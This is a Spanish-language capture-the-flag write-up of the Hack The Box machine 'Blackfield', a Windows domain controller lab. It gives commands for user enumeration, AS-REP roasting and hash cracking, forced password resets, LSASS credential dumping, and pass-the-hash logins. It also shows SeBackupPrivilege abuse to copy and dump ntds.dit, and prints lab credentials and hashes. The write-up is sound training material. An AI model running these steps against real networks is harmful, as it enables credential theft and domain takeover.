## Box Info

| Name                  | Blackfield       | 
| :-------------------- | ---------------: |
| Release Date          | 06 Jun, 2020     |
| OS                    | Windows          |
| Rated Difficulty      | Hard             |

```zsh
ping -c 3 10.10.10.192     
PING 10.10.10.192 (10.10.10.192) 56(84) bytes of data.
64 bytes from 10.10.10.192: icmp_seq=1 ttl=127 time=130 ms
64 bytes from 10.10.10.192: icmp_seq=2 ttl=127 time=129 ms
64 bytes from 10.10.10.192: icmp_seq=3 ttl=127 time=129 ms
```

## Recon

```zsh
nmap -p- --open --min-rate 5000 -n -vv -Pn 10.10.10.192 -oG allPorts
```

```zsh
# Nmap 7.95 scan initiated Thu Jul 10 23:35:34 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p 53,88,135,389,445,593,3268,5985 -oN targeted 10.10.10.192
Nmap scan report for 10.10.10.192
Host is up (0.13s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-11 10:35:41Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-11T10:35:50
|_  start_date: N/A
|_clock-skew: 6h59m59s
```

```zsh
nxc smb 10.10.10.192

SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
```

Con netexec y smb podemos obtener mayor informacion sobre la maquina como hostname, version del SO y el nombre de dominio.

```zsh
nxc smb 10.10.10.192 --shares 
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] Error enumerating shares: STATUS_USER_SESSION_DELETED
```

Tambien podemos enumerar el los archivos compartidos por smbclient con null session.

```zsh
smbclient -L //BLACKFIELD.LOCAL/ -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	forensic        Disk      Forensic / Audit share.
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	profiles$       Disk      
	SYSVOL          Disk      Logon server share
```

O con smbmap la diferencia es que indica los permisos para saber que recursos podemos leer.

```zsh
smbmap -H 10.10.10.192 -u 'test'
```

```zsh
[+] IP: 10.10.10.192:445	Name: BLACKFIELD.LOCAL    	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	NO ACCESS	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share 
	profiles$                                         	READ ONLY	
	SYSVOL                                            	NO ACCESS	Logon server share 
```

Solo hay 2 recursos que podemos leer y el que mas llama la atencion es el `profiles$`.

```
smbmap -H 10.10.10.192 -u 'adaw' -r 'profiles$' --no-banner
```

Nos lista una gran fila de nombres de usuarios



Para saber que posibles usuarios son validos dentro del dominio, vamos a tomar la ultima fila es decir todos los usuarios para guardarlos en un archivo.

```zsh
smbmap -H 10.10.10.192 -u 'adaw' -r 'profiles$' --no-banner | awk 'NF{print $NF}' > users
```

## Kerbrute

Con kerbrute enumeramos los usuarios validos que se encuentran en el dominio.

```zsh
/opt/kerbrute/kerbrute userenum --dc 10.10.10.192 -d BLACKFIELD.LOCAL users
```



Al tener 3 usuarios validos dentro del dominio podria intentar obtener un tgt a traves de ASREPRoast Attack

## Kerberoasting Attack

```zsh
impacket-GetUserSPNs BLACKFIELD.LOCAL/support:#00^BlackKnight
```



## ASREP Roast Attack

```ZSH
impacket-GetNPUsers BLACKFIELD.LOCAL/support -no-pass
```



### Crack Hash

```zsh
john hash -w=/usr/share/wordlists/rockyou.txt 
```



```dtd
#00^BlackKnight
```

### SMBMap

```zsh
smbmap -H 10.10.10.192 -u 'support' -p '#00^BlackKnight' -r 'SYSVOL' --depth 10 --no-banner
```

Ahora podria enumerar todos los usuarios que se encuentran en el dominio

```zsh
 rpcclient -U 'support%#00^BlackKnight' 10.10.10.192 -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]'
```



De igual forma con `ldapdomaindump` podemos obtener mayor informacion de los grupos y usuarios del dominio.

```zsh
ldapdomaindump -u 'BLACKFIELD.LCOAL\support' -p '#00^BlackKnight' 10.10.10.192
```



## AUDIT2020

### BloodHound

```zsh
bloodhound-python -d BLACKFIELD.LOCAL -u support -p '#00^BlackKnight' -ns 10.10.10.192 --zip -c All
```




### DACL (ForceChangePassword)

```zsh
bloodyAD --host 10.10.10.192 -d BLACKFIELD.LOCAL -u "support" -p '#00^BlackKnight' set password "audit2020" 'P@ssword123!'
```



#### Validate Creds

```zsh
nxc smb 10.10.10.192 -u 'audit2020' -p 'P@ssword123!' --shares
```



Ahora podemos ver dentro del recurso "forensic" compartido.

```zsh
smbclient //10.10.10.192/forensic -U 'audit2020%P@ssword123!'
```



El lssas es un proceso critico en los sistemas windows que se encarga de la seguridad local incluyendo la autenticacion de usuarios.

```zsh
7z l lsass.zip
```



## Pypykatz

```
pypykatz lsa
```



```zsh
pypypkatz lsa minidump lsaas.DMP
```



```zsh
nxc smb 10.10.10.192 -u "svc_backup" -H "9658d1d1dcd9250115e2205d9f48400d"
```



```
nxc winrm 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
```


```zsh
evil-winrm -i 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
```



Podemos entrar al directorio del administrador pero aun no podemos visualizar la flag root.txt



```powershell
whoami /priv
```



## Privilege Escalation

``SeBackupPrivileges`` permite al usuario exportar subárboles de registro.

```powershell
SeBackupPrivilege
```

[sebackupprivilege](https://juggernaut--sec-com.translate.goog/sebackupprivilege/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc)

El SYSTEM contiene la información (clave de arranque) necesaria para descifrar el archivo SAM y extraer los hashes que contiene.

Los “archivos” SAM y SYSTEM son copias de las subárboles de registro SAM y SYSTEM representadas como un solo archivo.

```powershell
reg save hklm\system C:\temp\SYSTEM
```




La **SAM** es un archivo de base de datos del sistema operativo Windows que contiene nombres de usuario y contraseñas locales . Las contraseñas del archivo SAM no se almacenan en texto plano, sino como hashes NTLM (MD4).

```powershell
reg save hklm\sam C:\temp\sam
```

Ahora extraemos la copia del hash de administrator del archivo SAM

```zsh
/usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam -system system local
```



```zsh
nxc smb 10.10.10.192 -u "Administrator" -H '67ef902eae0d740df6257f273de75051'
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\Administrator:67ef902eae0d740df6257f273de75051 STATUS_LOGON_FAILURE
```

Desafortunadamente lo que necesitamos es el hash del administrador del dominio y no local.
Una cuenta de administrador local tiene control total sobre los recursos de una máquina específica, mientras que un administrador de dominio tiene control sobre múltiples máquinas y recursos dentro de un dominio de red.

Incluso en el link sobre la Priv:`seBackupPrivilege` mencionan que se puede lograr obtener el NTDS.dit que es que contiene todos los hashes de los usuarios de un dominio.



```powershell
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
echo "create" | out-file ./diskshadow.txt -encoding ascii -append        
echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append
```



Los comandos anteriores básicamente le dicen a diskshadow.exe que cree una copia de C: y la llame Z: y la exponga (la haga accesible como una unidad).

```powershell
diskshadow.exe /s c:\temp\diskshadow.txt
```



```powershell
robocopy /b Z:\Windows\ntds\ . ntds.dit
```



Descargamos con evil-winrm el archivo ``ntds.dit``



```zsh
/usr/share/doc/python3-impacket/examples/secretsdump.py -system system -ntds ntds.dit local
```


```zsh
nxc smb 10.10.10.192 -u "Administrator" -H '184fb5e5178480be64824d4cd53b99ee'
```



```zsh
evil-winrm -i 10.10.10.192 -u 'Administrator' -H '184fb5e5178480be64824d4cd53b99ee'
```



